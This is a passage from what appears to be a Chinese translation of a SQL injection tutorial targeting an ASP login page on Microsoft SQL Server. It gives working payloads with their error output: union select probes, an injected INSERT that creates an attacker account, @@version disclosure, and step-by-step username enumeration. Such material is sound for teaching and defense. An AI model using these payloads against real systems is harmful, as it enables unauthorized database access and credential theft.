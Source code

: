 /process_login.asp, line 35

这告诉了我们&amp;apos;username&amp;apos;字段的类型是varchar。如果是另一种情况，我们尝试去计算sum()的是数字类型，我们得到的错误消息告诉我们两个集合的字段数量不相等。

Username：&amp;apos; union select sum(id) from users-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e14&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]All queries in an SQL statement containing a UNION operator must have an equal number of expressions in their target lists.

/process_login.asp, line 35

我们可以用这种技术近似地确定数据库中任何表中的任何字段的类型。

这样攻击者就可以写一个好的insert查询，例如：

Username：&amp;apos;;insert into users values(666,&amp;apos;attacker&amp;apos;,&amp;apos;foobar&amp;apos;,&amp;apos;0xffff)-

这种技术的潜在影响不仅仅是这些。攻击者可以利用这些错误消息显示环境信息或数据库。通过运行一列一定格式的字符串可以获得标准的错误消息：

select * from master ..sysmessages

解释这些将实现有趣的消息。

一个特别有用的消息关系到类型转化。如果你尝试将一个字符串转化成一个整型数字，那么字符串的所有内容会返回到错误消息中。例如在我们简单的登陆页面中，在username后面会显示出SQLSERVER的版本和所运行的操作系统信息：

Username：&amp;apos; union select @@version,1,1,1-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value &amp;apos;Microsoft SQL Server 2000 - 8.00.194 (Intel X86) Aug 6 2000 00:57:48 Copyright (c) 1988-2000 Microsoft Corporation Enterprise Edition on Windows NT 5.0 (Build 2195: Service Pack 2) &amp;apos; to a column of data type int.

/process_login.asp, line 35

这句尝试去将内置的&amp;apos;@@version&amp;apos;常量转化成一个整型数字，因为users表中的第一列是整型数字。

这种技术可以用来读取数据库中任何表的任何值。自从攻击者对用户名和用户密码比较感兴趣后，他们比较喜欢去从users表中读取用户名，例如：

Username：&amp;apos; union select min(username),1,1,1 from users where username&gt;&amp;apos;a&amp;apos;-

这句选择users表中username大于&amp;apos;a&amp;apos;中的最小值，并试图把它转化成一个整型数字：

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;

[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the varchar value &amp;apos;admin&amp;apos; to a column of data type int.

/process_login.asp, line 35

因此攻击者已经知道用户admin是存在的。这样他就可以重复通过使用where子句和查询到的用户名去寻找下一个用户。

Username：&amp;apos; union select min(username),1,1,1 from users where username&gt;&amp;apos;admin&amp;apos;-

Microsoft OLE DB Provider for ODBC Drivers error &amp;apos;80040e07&amp;apos;
